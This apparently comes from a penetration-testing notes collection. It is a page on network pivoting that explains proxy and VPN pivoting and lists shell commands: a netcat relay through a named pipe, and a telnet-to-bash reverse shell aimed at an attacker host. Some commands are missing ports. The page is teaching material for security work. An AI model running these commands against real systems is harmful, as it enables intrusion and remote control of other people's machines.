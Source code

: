 # Pivoting

Pivoting is a method used by penetration testers that uses the compromised system to attack other systems on the same network to avoid restrictions such as firewall configurations, which may prohibit direct access to all machines. For example, if an attacker compromises a web server on a corporate network, the attacker can then use the compromised web server to attack other systems on the network. These types of attacks are often called multi-layered attacks. Pivoting is also known as island hopping.

Pivoting can further be distinguished into proxy pivoting and [VPN](../networking/vpn.md) pivoting.

Proxy pivoting is the practice of channeling traffic through a compromised target using a proxy payload on the machine and launching attacks from the computer. This type of pivoting is restricted to certain TCP and UDP ports that are supported by the proxy.

VPN pivoting enables the attacker to create an encrypted layer to tunnel into the compromised machine to route any network traffic through that target machine, for example, to run a vulnerability scan on the internal network through the compromised machine, effectively giving the attacker full network access as if they were behind the firewall.

Typically, the proxy or VPN applications enabling pivoting are executed on the target computer as the payload of an exploit.

Pivoting is usually done by infiltrating a part of a network infrastructure (as an example, a vulnerable printer or thermostat) and using a scanner to find other devices connected to attack them. By attacking a vulnerable piece of networking, an attacker could infect most or all of a network and gain complete control.

## Make a FIFO in the file system 

```shell
mknod [name of file] p
```

## Pivoting with a backpipe #
### On the attacker:

```shell
nc [pivot host]
```

### On the pivot host

```shell
nc localhost 80 <[FIFO file name] | nc -l -p 4444 >[FIFO file name]
```

## Telnet variant (when netcat is not available on the target) #
### Listen on port 80 in terminal 1 on the attack machine

```shell
nc -l -n -v -p 80 
```

### Listen on port 443 in terminal 2 on the attack machine

```shell
nc -l -n -v -p 443
```

### On the target machine:

```shell
telnet [attack host] 80 | /bin/bash | telnet [attack host]
```

